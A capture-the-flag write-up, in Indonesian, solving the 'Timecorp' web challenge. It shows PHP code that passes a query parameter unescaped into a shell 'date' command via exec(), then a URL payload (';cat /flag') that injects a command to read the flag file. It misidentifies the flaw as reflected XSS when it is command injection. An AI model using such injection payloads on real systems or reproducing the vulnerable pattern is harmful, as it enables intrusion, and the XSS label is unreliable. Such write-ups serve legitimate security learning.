



# Timecorp

### Category
Web Exploitation

### DESCRIPTION
> Are you ready to unravel the mysteries and expose the truth hidden within KROP's digital domain? Join the challenge and prove your prowess in the world of cybersecurity. Remember, time is money, but in this case, the rewards may be far greater than you imagine.

### Files
[web_timecorp.zip](./web_timecorp.zip)

### Analysis
Diberikan website seperti ini


Ketika pertama kali melihatnya, saya berasumsi website ini rentan terhadap XSS, lalu saya tes sebagai berikut


Lalu saya analisa lagi source codenya sebagai berikut
```php
// TimeController.php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```
Controller tidak memvalidasi query url dari client dan langsung meneruskannya ke model

```php
<?php
// TimeModel.php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

Didalam model query url dari controller langsung dieksekusi oleh program, ini menandakan indikasi Reflected XSS. Kita bisa membuat payload untuk mengakses direktori program salah satunya adalah flag.Lalu didalam Dockerfile direktori flag terletak di root.

```
# Copy flag
COPY flag /flag
```

### EXPLOITATION
Susun payload
```
http://154.57.164.77:40546/?format=';cat /flag'
- single quote digunakan sebagai separator/pemisah
- semicolon digunakan untuk mengeksekusi perintah
```

Holaa, kita dapatkan flagnya


### References
https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)
